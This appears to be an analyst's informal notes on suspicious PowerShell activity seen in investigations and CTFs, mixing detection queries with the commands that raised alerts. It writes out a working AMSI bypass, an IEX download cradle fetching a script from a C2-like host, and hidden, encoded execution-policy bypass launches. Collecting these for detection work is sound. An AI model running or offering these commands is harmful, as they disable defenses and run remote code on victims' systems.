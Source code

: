 # ran this to see policy... then changed it and didn't document it
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted

# IEX with encoded blob. looks bad. was bad.
powershell -Exec Bypass -Enc JAB... (cut off)

# used this to grab a .ps1 script — forgot to check if it's malicious
Invoke-WebRequest -Uri http://10.10.10.5/payload.ps1 -OutFile payload.ps1

# AMSI bypass string seen in a CTF
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)




# legit user ran this and SIEM flagged it
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command Get-Process"



# decoded one line and it ran Invoke-Expression + WebClient... suspicious
powershell -Command "IEX (New-Object Net.WebClient).DownloadString('http://weirdc2.xyz/script')"

# script block logging was ON but logs got cut off mid-command — why?
PowerShell 5.1 + LogSize setting maybe?

# looked for obfuscation, found 20 lines with "`n" and "`t" and -Join…
Select-String -Path logs.ps1 -Pattern "`n|`t|-Join"

# triggered alert on hidden window + no profile + encoded command = 
powershell -w hidden -nop -enc [long string]

# Word doc spawned PowerShell using macro. didn't catch it at first.
WINWORD.EXE → powershell.exe → whoami

# looped through PowerShell logs for 2 hours, forgot to save query
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104}

# decoded a string and it just said "you've been owned" 💀
